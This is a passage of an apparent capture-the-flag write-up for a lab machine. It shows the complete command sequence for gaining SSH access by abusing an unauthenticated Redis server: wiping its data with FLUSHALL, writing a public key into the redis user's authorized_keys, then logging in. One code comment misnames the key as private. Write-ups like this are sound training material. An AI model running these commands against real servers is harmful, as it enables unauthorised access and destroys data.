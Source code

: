 It seems like the redis account has SSH access (kill the admin of this machine)???  Try to add a default SSH key:

```bash
# create a new SSH key
ssh-keygen -t rsa
# copy it to the local directory
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt
# connect to target and add stage payload
rdcli -h 10.10.10.160 -p 6379 FLUSHALL
rdcli -h 10.10.10.160 -p 6379 SET bubba "$(cat key.txt)"
rdcli -h 10.10.10.160 -p 6379 CONFIG SET dir /var/lib/redis/.ssh/
# save private key to target
rdcli -h 10.10.10.160 -p 6379 CONFIG SET dbfilename "authorized_keys"
rdcli -h 10.10.10.160 -p 6379 SAVE
```

And thiese commands do not error! Try to SSH to the target:

```bash
ssh -i ~/.ssh/id_rsa redis@10.10.10.160
```

![user1](./postman/user1.png)

This provides access to the target but not `user.txt`... Looking for interesting files shows that the current user has a bash history?
